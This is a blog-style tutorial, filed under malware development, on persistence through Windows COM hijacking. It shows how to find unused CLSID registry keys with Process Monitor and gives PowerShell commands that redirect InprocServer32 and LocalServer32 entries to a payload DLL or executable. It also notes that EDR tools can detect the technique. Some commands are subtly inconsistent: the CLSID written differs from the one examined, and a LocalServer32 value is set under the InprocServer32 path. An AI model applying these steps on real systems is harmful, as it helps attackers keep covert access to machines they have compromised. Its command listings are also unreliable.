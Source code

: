 ```yaml
---
layout: post
title: COM Hijacking
date: 2023-12-22
categories: [Malware Development, Persistence]
tags: [persistence]     
---
```


> COM is a system within Windows to enable interaction between software components through the operating system. 
  References to various COM objects are stored in the Registry

- [MITRE](https://attack.mitre.org/techniques/T1546/015/)

We can establish persistence through COM by hijacking a COM object. When the hijacked object is referenced, our payload is executed instead of the original software component. Hijacking COM objects that are in use can lead to broken applications, so we should look for applications that try to reference broken/unused keys.

To achieve this we can use Process Monitor from the SysInternal suite. Apply these filters

- Operation -> is -> RegOpenKey
    
>   RegOpenKey opens the specified registry key. We use this filter because COM objects are stored in the registry

- Result -> is -> NAME NOT FOUND

>   We use this filter because we don't want to hijack COM objects that are in use

- Path -> ends with -> InprocServer32

>   This registry contains a 32-bit in-process server. In this context, that means a DLL that provides services to other applications

- Path -> ends with -> LocalServer32

>   This registry contains the full path to a COM server application. This means that we can specify the path to an executable which we want executed

Now we will be able to see any process activity that meets these criteria. To speed things up, we can open random applications (such as Access, Outlook and so on). We should look for an object that is not referenced very often, as executing the payload every second is not a good idea.

> OPSEC WARNING: EDR solutions have rules that can detect this technique. For [example](https://www.elastic.co/guide/en/security/8.11/component-object-model-hijacking.html)
{: .prompt-warning }

#### Example 1 - InprocServer32

Let's take for example this COM object, with the CLSID `{4590F811-1D3A-11D0-891F-00AA004B2E24}` (The CLSID is an unique identifier for COM class objects)

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32
```

Let's check it's contents

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment
```

If we can change the value of `(default)` from `C:\Windows\System32\thumbcache.dll` to our payload, persistence is succesfully established.

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Path\To\payload.dll"
```
We also need to change the threading model to support both single threaded and multi-threaded mode.

```powershell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

After we are done, we should delete the registry entry and DLL.

#### Example 2 - LocalServer32

We will consider an object with the same CLSID

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32
```

Now the contents will be something to the likes of

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32"

Name                           Property
----                           --------
Localerver32                   (default)      : C:\Program Files\Microsoft Office\Office14\EXCEL.EXE
                               ServerExecutable : "C:\Program Files\Microsoft Office\Office14\EXCEL.EXE"
```

In this case we have to change the value of `(default)` and `ServerExecutable` to our payload, in PE format.

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "LocalServer32" -Value "C:\Path\To\payload.exe"
```

```powershell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ServerExecutable" -Value "C:\Path\To\payload.exe"
```

To clean up, delete the executable and the registry entry.
